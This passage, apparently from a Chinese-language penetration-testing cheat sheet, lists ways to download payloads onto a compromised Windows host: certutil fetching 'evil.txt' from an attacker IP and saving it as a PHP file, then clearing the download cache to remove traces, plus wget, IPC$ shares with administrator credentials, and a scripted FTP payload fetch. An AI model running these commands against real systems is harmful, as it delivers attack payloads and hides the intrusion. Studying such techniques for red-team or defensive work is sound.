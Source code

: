 

### 3.certutil

用于备份证书服务，支持xp-win10。由于certutil下载文件都会留下缓存，所以一般都建议下载完文件后对缓存进行删除。

注：缓存目录为`%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`

```bash
#下载文件 
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php 
#删除缓存 
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt delete
```



### 4.wget

Windows环境下，可上传免安装的可执行程序wget.exe到目标机器，然后使用wget下载文件。

下载地址：https://eternallybored.org/misc/wget/

```bash
wget -O "evil.txt" http://192.168.28.128/imag/evil.txt
```



### 5.ipc$文件共享

IPC$(Internet Process Connection)是共享"命名管道"的资源，它是为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。

```bash
#建立远程IPC连接 
net use \\192.168.28.128\ipc$ /user:administrator "abc123!" 

#复制远程文件到本地主机 
copy \\192.168.28.128\c$\2.txt D:\test
```





### 6.FTP

一般情况下，攻击者使用FTP上传文件需要很多交互的步骤，下面这个 bash脚本，考虑到了交互的情况，可以直接执行并不会产生交互动作。

```bash
ftp 127.0.0.1 	# 这里换成我们装有payload的服务器的IP地址
username # 输入用户名
password 	# 密码
get file 	# 下载的payload文件
exit 
```




